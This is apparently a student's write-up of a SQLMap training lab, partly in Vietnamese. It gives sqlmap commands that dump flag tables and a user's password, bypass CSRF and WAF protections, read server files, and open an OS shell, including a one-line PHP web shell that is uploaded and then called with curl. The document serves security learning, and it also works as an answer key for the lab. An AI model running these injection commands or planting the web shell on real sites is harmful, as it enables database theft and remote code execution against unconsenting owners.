








# Running SQLMap on an HTTP Request

#### Questions

+ 1  What's the contents of table flag2? (Case #2)

```zsh
sqlmap -r case2.txt -p id --dbms=MySQL -D testdb -T flag2 --dump -t 10 --batch
```

+ 1  What's the contents of table flag3? (Case #3)


```zsh
sqlmap -r case3.txt --risk=2 --level=3 --cookie='id=*' --dbms=MySQL -D testdb -T flag3 --dump --threads=10 --batch
```

+ 1  What's the contents of table flag4? (Case #4)

```zsh
sqlmap -r case4.txt --risk=2 --level=3 --dbms=MySQL -p id -D testdb -T flag4 --dump --threads=10 --batch
```

# Attack Tuning

#### Questions

+ 1  What's the contents of table flag5? (Case #5)

```zsh
sqlmap -u 'http://94.237.120.186:41670/case5.php?id=1' --risk=3 --level=5 --threads=10 --batch --text-only -p id --dbms=MySQL -D testdb -T flag5 --dump
```

+ 2  What's the contents of table flag6? (Case #6)

```zsh
sqlmap -u 'http://94.237.120.186:41670/case6.php?col=id' --risk=3 --level=5 --threads=10 --batch --text-only  --prefix="\`)" --dbms=MySQL -D testdb -T flag6 --dump
```

+ 1  What's the contents of table flag7? (Case #7)

```zsh
sqlmap -u 'http://94.237.48.12:50977/case7.php?id=1' --batch --risk=3 --level=5 --threads=10 -p id --dbms=MySQL -D testdb -T flag7 --dump --technique=U --union-cols=5 --hex
```

# Database Enumeration
#### Questions
 What's the contents of table flag1 in the testdb database? (Case #1)

```zsh
sqlmap -u 'http://94.237.48.12:50977/case1.php?id=1' --batch --risk=3 --level=5 --threads=10 -p id --dbms=MySQL -D testdb -T flag1 -C content --dump
```

# Advanced Database Enumeration
#### Questions


 What's the name of the column containing "style" in it's name? (Case #1)

```zsh
sqlmap -u 'http://94.237.48.12:50977/case1.php?id=1' --batch --risk=3 --level=5 --threads=10 -p id --dbms=MySQL --search -C 'style'
```

+ 1  What's the Kimberly user's password? (Case #1)

```zsh
sqlmap -u 'http://94.237.48.12:50977/case1.php?id=1' --risk=3 --level=5 --threads=10 -p id --dbms=MySQL -D testdb -T users -C id,email,name,password --where "name like '%Kimberly%'" --dump
```

# Bypassing Web Application Protections


#### Questions
+ 1  What's the contents of table flag8? (Case #8)

```zsh
sqlmap -u 'http://94.237.56.47:44355/case8.php'  --risk=2 --level=3 --data="id=2&t0ken=DB1X8bKVmPHedhApzNs9aW4u8KDhM9nuZj8SVMi0Ms" --dbms=MySQL -D testdb -T flag8 --dump -p id --csrf-token="t0ken" --batch
```

+ 1  What's the contents of table flag9? (Case #9)

```zsh
sqlmap -u 'http://94.237.56.47:44355/case9.php?id=1&uid=812836763' --risk=2 --level=3 -p id --randomize=uid --batch --dbms=MySQL -D testdb -T flag9 --dump --threads=3 --technique=BT --hex --time-sec=6
```

+ 1  What's the contents of table flag10? (Case #10)

 ```zsh
sqlmap -u 'http://94.237.56.47:44355/case10.php' --data="id=1" --threads=10 --dbms=MySQL -D testdb -T flag10 --risk=2 --level=3 --dump --random-agent --technique=BT
```

+ 1  What's the contents of table flag11? (Case #11)

```zsh
sqlmap -u 'http://94.237.54.192:59341/case11.php?id=1' --risk=3 --level=5 --dbms=MySQL -D testdb -T flag11 -C Content --dump --threads=10 --tamper=between,greatest,least --batch --random-agent -p id --technique=B
```

# OS Exploitation

#### Questions

+ 1  Try to use SQLMap to read the file "/var/www/html/flag.txt".

```zsh
sqlmap -u 'http://94.237.48.12:58722/?id=1' --risk=3 --level=5 --dbms=mysql -p id --threads=10 --technique=BET --file-read "/var/www/html/flag.txt"
```

+ 1  Use SQLMap to get an interactive OS shell on the remote host and try to find another flag within the host.

```zsh
sqlmap -u 'http://94.237.48.12:58722/?id=1' --risk=3 --level=5 --dbms=mysql -p id --threads=10 --technique=BET --os-shell
```

or

```zsh
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

```zsh
sqlmap -u 'http://94.237.48.12:58722/?id=1' --risk=3 --level=5 --dbms=mysql -p id --threads=10 --technique=BET --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```

```zsh
curl http://94.237.48.12:58722/shell.php?cmd=cat%20/flag.txt
```

## Skills Assessment

---

You are given access to a web application with basic protection mechanisms. Use the skills learned in this module to find the SQLi vulnerability with SQLMap and exploit it accordingly. To complete this module, find the flag and submit it here.

#### Questions

+ 3  What's the contents of table final_flag?

Home page



Có các phần đáng chú ý là `add to cart`, `contact`,  `checkout` và một `search box` ở `blog`

Tuy nhiên chỉ có chức năng `add to cart` là hoạt động.



Nó là `POST` method tới `action.php` với data dạng json, tham số là `id`



Tôi sẽ lưu lại request này vào một file



Tôi thử truy vấn thủ công, điều này cơ bản xác định được đây là `MySQL`



Câu lệnh ban đầu, do dạng `json` trong request không cho phép space nên tôi thử dùng tamper này:

```zsh
sqlmap -r final --risk=3 --level=5 -p id --random-agent --dbms=mysql --threads=10 --tamper=space2comment,space2dash,space2hash --batch
```

Thật bất ngờ, chúng ta có kết quả:



Tôi sẽ tối ưu lại truy vấn của mình một chút để tăng tốc độ

```zsh
sqlmap -r assesment --risk=3 --level=5 -p id --random-agent --dbms=mysql --threads=10 --tamper=between --technique=T --batch --current-user --is-dba
```



Chúng ta sẽ thử lại lần nữa  vì có lẽ data bị lỗi nên không hiển thị tên người dùng. Tùy chọn `--flush-session` sẽ cần thiết để thử lại payload.

```zsh
sqlmap -r assesment --risk=3 --level=5 -p id --random-agent --dbms=mysql --threads=1 --tamper=between --technique=T --batch --current-user --search -T final_flag --flush-session
```

Đợi chờ là hạnh phúc thôi

